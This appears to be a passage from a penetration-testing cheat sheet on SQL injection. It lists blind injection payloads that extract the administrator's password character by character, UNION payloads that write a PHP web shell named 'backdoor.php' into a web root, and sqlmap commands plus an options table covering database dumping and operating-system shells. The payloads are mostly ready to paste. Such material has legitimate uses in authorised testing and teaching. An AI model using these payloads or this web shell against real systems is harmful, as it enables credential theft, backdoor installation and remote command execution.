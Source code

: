 
Check for the existance/correctness:

```fundamental
' AND (SELECT 'exists' FROM users) = 'exists

' AND (SELECT 'exists' FROM users WHERE username = 'administrator') = 'exists

' AND (SELECT 'correct' FROM users WHERE username = 'administrator' AND length(password) < 8 ) = 'correct

' AND (SELECT CASE substring(password,1,1) WHEN '$' THEN to_char(1/0) ELSE 'correct' END FROM users WHERE username = 'administrator') = 'correct

'||(SELECT CASE substring(password,1,1) WHEN '$' THEN to_char(1/0) ELSE '' END FROM users WHERE username = 'administrator')||'
```

---

Inject a [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/web/simple_php_web_shell_get.php) based on HTTP GET request:

```fundamental
' UNION SELECT '', '', '', '<?php if(isset($_GET["command"])){echo shell_exec($_GET["command"]);} ?>' INTO DUMPFILE '..\\..\\htdocs\\backdoor.php'-- 

' UNION SELECT '', '', '', '<?php $p="command";$o=null;if(isset($_SERVER["REQUEST_METHOD"])&&strtolower($_SERVER["REQUEST_METHOD"])==="get"&&isset($_GET[$p])&&($_GET[$p]=trim($_GET[$p]))&&strlen($_GET[$p])>0){$o=@shell_exec("($_GET[$p]) 2>&1");if($o===false){$o="ERROR: The function might be disabled.";}else{$o=str_replace("<","&lt;",$o);$o=str_replace(">","&gt;",$o);}} ?><!DOCTYPE html><html lang="en"><head><meta charset="UTF-8"><title>Simple PHP Web Shell</title><meta name="author" content="Ivan Šincek"><meta name="viewport" content="width=device-width, initial-scale=1.0"></head><body><pre><?php echo $o;unset($o);unset($_GET[$p]); ?></pre></body></html>' INTO DUMPFILE '..\\..\\htdocs\\backdoor.php'-- 
```

To successfully inject a web shell, the current database user must have a write permission.

### sqlmap

Inject SQL code into request parameters:

```fundamental
sqlmap -a -u somesite.com/index.php?username=test&password=test

sqlmap -a -u somesite.com/index.php --data username=test&password=test

sqlmap -a -u somesite.com/index.php --data username=test&password=test -p password
```

| Option | Description |
| --- | --- |
| -u | Target URL |
| -H | Extra HTTP header |
| --data | Data string to be sent through POST |
| --cookie | HTTP Cookie header value |
| --proxy | Use a proxy to connect to the target URL (\[protocol://\]host\[:port\]) |
| -p | Testable parameter(s) |
| --level | Level of tests to perform (1-5, default: 1) |
| --risk | Risk of tests to perform (1-3, default: 1) |
| -a | Retrieve everything |
| -b | Retrieve DBMS banner |
| --dump-all | Dump all DBMS databases tables entries |
| --os-shell | Prompt for an interactive operating system shell |
| --os-pwn | Prompt for an OOB shell, Meterpreter, or VNC |
| --sqlmap-shell | Prompt for an interactive sqlmap shell |
| --wizard | Simple wizard interface for beginner users |
| --dbms | To do. |
